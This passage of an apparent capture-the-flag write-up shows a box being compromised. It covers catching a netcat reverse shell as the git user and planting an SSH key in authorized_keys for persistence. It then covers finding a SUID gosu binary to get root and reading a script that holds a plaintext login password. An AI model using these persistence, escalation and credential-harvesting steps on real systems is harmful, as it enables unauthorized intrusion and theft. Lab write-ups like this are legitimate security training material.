 I popped a shell as user `git`:

```
# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.101.
Ncat: Connection from 10.10.10.101:42515.
/bin/sh: can't access tty; job control turned off
/data/git/gogs-repositories/kaneki/gogstest.git $ id
uid=1000(git) gid=1000(git) groups=1000(git)
```

I saved the kaneki public key to the `git` user folder in case I lose my shell:

```
/data/git/.ssh $ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsiPbWC8feNW7o6emQUk12tFOcucqoS/nnKN/LM3hCtPN8r4by8Ml1IR5DctjeurAmlJtXcn8MqlHCRbR6hZKydDwDzH3mb6M/gCYm4fD9FppbOdG4xMVGODbTTPV/h2Lh3ITRm+xNHYDmWG84rQe++gJImKoREkzsUNqSvQv4rO1RlO6W3rnz1ySPAjZF5sloJ8Rmnk+MK4skfj00Gb2mM0/RNmLC/rhwoUC+Wh0KPkuErg4YlqD8IB7L3N/UaaPjSPrs2EDeTGTTFI9GdcT6LIaS65CkcexWlboQu3DDOM5lfHghHHbGOWX+bh8VHU9JjvfC8hDN74IvBsy120N5 kaneki@kaneki-pc" >> authorized_keys
```

There's not much `git` has access to, but I found an interesting  `gosu` suid binary:

```
/data/git $ find / -perm /4000 2>/dev/null
[...]
/usr/sbin/gosu
/bin/su
```

I can get root access by just running it:

```
3713ea5e4353:~$ gosu root /bin/bash
3713ea5e4353:/data/git# cd
3713ea5e4353:~#
```

The root user directory contains a 7zip archive and a `session.sh` file with some credentials.

```
3713ea5e4353:~# ls
aogiri-app.7z  session.sh
```

```shell
3713ea5e4353:~# cat session.sh
#!/bin/bash
while true
do
  sleep 300
  rm -rf /data/gogs/data/sessions
  sleep 2
  curl -d 'user_name=kaneki&password=12345ILoveTouka!!!' http://172.18.0.2:3000/user/login
done
```
